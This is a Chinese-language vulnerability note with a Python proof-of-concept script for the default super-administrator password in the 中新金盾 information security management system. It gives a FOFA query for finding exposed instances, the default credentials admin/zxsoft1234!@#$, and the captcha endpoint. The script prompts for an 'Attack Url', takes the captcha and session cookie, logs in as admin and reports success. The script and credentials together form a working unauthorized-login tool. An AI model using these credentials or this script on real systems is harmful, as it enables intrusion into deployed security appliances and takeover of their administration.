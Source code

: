 <languages   />

漏洞影響
--------

    中新金盾信息安全管理系统

FOFA
----

    title="中新金盾信息安全管理系统"

默認帳號密碼
------------

    admin/zxsoft1234!@#$

驗證碼
------

請求

    ?q=common/getcode

返回了驗證碼。

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "?q=common/getcode"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
            response_data = response.headers['Set-Cookie']
            check_code = re.findall(r'check_code=(.*?);', response_data)[0]
            PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
            print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
            POC_2(target_url, check_code, PHPSESSID)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, check_code, PHPSESSID):
        vuln_url = target_url + "?q=common/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
        }
        data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if "1" in response.text and response.status_code == 200:
                print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

參考
----

<https://mp.weixin.qq.com/s/DWuUlbtFU-MiGE3zw1w8Yg>